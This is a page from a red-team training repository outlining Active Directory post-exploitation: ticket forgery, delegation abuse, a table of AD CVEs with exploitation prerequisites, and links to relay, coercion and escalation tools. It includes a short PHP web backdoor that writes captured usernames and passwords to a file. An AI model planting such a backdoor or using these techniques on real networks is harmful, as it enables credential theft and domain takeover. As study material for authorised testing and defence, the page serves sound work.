

repository: lupingQAQ/red-team-skill-tree · page: ch-05/index.html · generator: mkdocs

# 5. Post-Exploitation and Internal Network Lateral Movement

## 5.1 AD Attacks and Privilege Escalation

**Credential fundamentals**: NTLM flow → winlogon.exe receives the password → lsass.exe compares against the SAM

**Ticket types**: Golden Ticket / Silver Ticket / Diamond Ticket / Sapphire Ticket

**Delegation attacks**: Unconstrained delegation / Constrained delegation / Resource-Based Constrained Delegation (RBCD)

**Key CVE quick reference**:
| CVE | Name | Core principle |
|-----|------|---------|
| MS14-068 | PAC forgery | the KDC does not validate the PAC signature algorithm → forge a high-privilege PAC (512/520/518/519) → prerequisites: DC not patched with KB3011780 + a computer in the domain + domain user password and SID |
| CVE-2020-1472 | Zerologon | AES-CFB8 encrypts all-zero plaintext → 1/256 chance of all-zero ciphertext → NetrServerPasswordSet2 sets an empty password (516 bytes of zeros → empty password) |
| CVE-2021-1675/34527 | PrintNightmare | RpcAddPrinterDriver does not require SeLoadDriverPrivilege → SYSTEM RCE (Print Spooler service) |
| CVE-2021-42287+42278 | noPac | machine account name does not end with $ → create an account with the same name as the DC → request a TGT → rename → S4U2Self → high-privilege ST. When MS-DS-Machine-Account-Quota=0, write permission over the account is required (GenericAll / domain-join account) |
| CVE-2022-26923 | ADCS | DNSHostname modification → certificate spoofing |

**Privilege escalation via WSUS/SCCM**:
- [WSUSpendu](https://github.com/AlsidOfficial/WSUSpendu) - in-domain patch update server, principle similar to an EDR console pushing files and commands
- [sccmwtf](https://github.com/xpn/sccmwtf) - push PowerShell

**Privilege escalation via Azure AD**: Azure AD Sync → obtain the sync account → DC Sync

**Attacking the mail server**: a domain admin has logged in / go through emails / WriteACL permission → grant yourself dsync rights ([PrivExchange](https://github.com/dirkjanm/PrivExchange))

**Bastion host / ops machine**: steal passwords via a web backdoor

**Steal passwords via a web backdoor**:
```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];
    $data = $username . ':' . $password . PHP_EOL;
    file_put_contents('users.txt', $data, FILE_APPEND | LOCK_EX);
}
```

**Dump hashes from servers the domain admin logs into** / **find password lists** / **find privileged group users** (Administrator/Backup Operators)

**NTLM relay tools**: Responder / Inveigh / multirelayx.py / PrinterBug / PetitPotam / DFSCoerce / ShadowCoerce / PrivExchange / [Coercer](https://github.com/p0dalirius/Coercer)

**Gain domain controller privileges via Distributed-COM-Users/Performance-Log-Users membership**: [Reference](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/)

**Analyze Group Policy**: [gpoParser](https://github.com/synacktiv/gpoParser/tree/main)

**In-domain automation**: [PIGADVulnScanner](https://github.com/evilashz/PIGADVulnScanner)
